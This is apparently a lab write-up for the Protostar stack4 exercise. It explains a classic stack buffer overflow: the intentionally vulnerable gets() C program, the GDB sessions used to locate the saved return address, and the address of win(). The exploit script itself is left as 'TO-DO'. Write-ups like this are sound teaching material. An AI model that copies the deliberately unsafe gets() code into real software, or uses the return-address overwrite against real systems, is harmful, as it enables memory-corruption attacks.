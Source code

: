 # Stack4 Solution

## C Code

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

* A variety of introductory papers into buffer overflows may help.
* gdb lets you do `run < input`
* EIP is not directly after the end of buffer, compiler padding can also increase the size.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```


## Return Address

Now, we are given the **same task as** [stack3](https://github.com/Naksh-Rathore/protostar-solutions/tree/main/stack3), only with **no function pointer**.
You may be wondering, how do we do this. The way to do it is by using something called a **return address**. A return address is a **value pushed onto the stack** 
that **tells the program where to resume execution** (the next instruction) after a **function call completes**. At the end of a function call, a `ret` **instruction is
always placed at the end**. What the `ret` instruction does is **change EIP to the return address**, then **pop the return address** off of the stack.

## Vulnerability

*Again*, you may be asking how do we use this to go the the `win()` function. The answer lies in **overflowing the stack values until we reach the return address, then
changing it**. But one of the hints were that **EIP (Return Address) is not directly after the end of buffer because of padding and compiler optimizations**. 

## Stack Visualization

Here is a **visual** of the stack

```
[ Buffer (64 bytes) ]
[ Saved EBP (4 bytes) ]
[ Return Address (4 bytes) ]
[ Other Stuff ]
```

Remember, the byte amount can **shift** due to compiler optimizations, stack misalignments, and padding.

## Exploit

Ok, so now we have a **rough idea**, let's get our padding sizing and memory addresses.

First, let's throw a **long string** at the binary in GDB.

To do that, **disassemble** `main()` and set a breakpoint at the `ret` instruction.

```bash
user@protostar:/opt/protostar/bin$ gdb stack4
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
End of assembler dump.
(gdb) break *main+22
Breakpoint 1 at 0x804841e: file stack4/stack4.c, line 16.
(gdb) 
```

Now that we have **our breakpoints set**, let's **run it** and provide `QQQQWWWWEEEERRRRTTTTYYYY....` as input. After that, let's check out all of our registers to see **what letter overwritten EBP**.

```bash
(gdb) r
Starting program: /opt/protostar/bin/stack4 
QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNMMMM

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x4c4c4c54
) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) info registers
eax            0xbffff760       -1073744032
ecx            0xbffff760       -1073744032
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7ac       0xbffff7ac
ebp            0x4c4c4c4c       0x4c4c4c4c
esi            0x0      0
edi            0x0      0
eip            0x804841e        0x804841e <main+22>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

Now, **we see that EBP was overwritten** to `0x4c4c4c4c`, which is `LLLL` in ASCII. That means to **overwrite the return address**, we need to **first pass** `QQQQWWWWEEEERRRRTTTTYYYY...` until `LLLL`. Then, we can **overwrite the return address with anything we want** by just **appending it to the end** of the string.

```bash
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x5a5a5a5a in ?? ()
(gdb) 
```

Once we continue (`c`), we see that the **return address got overwritten** to `0x5a5a5a5a` (`ZZZZ`) because the **program tried to go to that memory address** which is of course **illegal**. That **checks out** with the EBP overwrite because `ZZZZ` was **right after** `LLLL` in the input string, which **matches up perfectly with our stack visual** from earlier. 

So now we need to get the **memory address** of the `win()` function. Do to that, we use the `p` command in GDB to **print the value of whatever comes after it**.

```bash
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
(gdb) 
```

We see that the **memory address** of `win()` is `0x80483f4`. Now we have *everything* needed to **create our exploit script**.

**TO-DO**

## Resources

* [C Code](https://exploit.education/protostar/stack-four/)
* [Geeks for Geeks Article on Return Addresses](https://www.geeksforgeeks.org/dsa/how-is-return-address-specified-in-stack/)

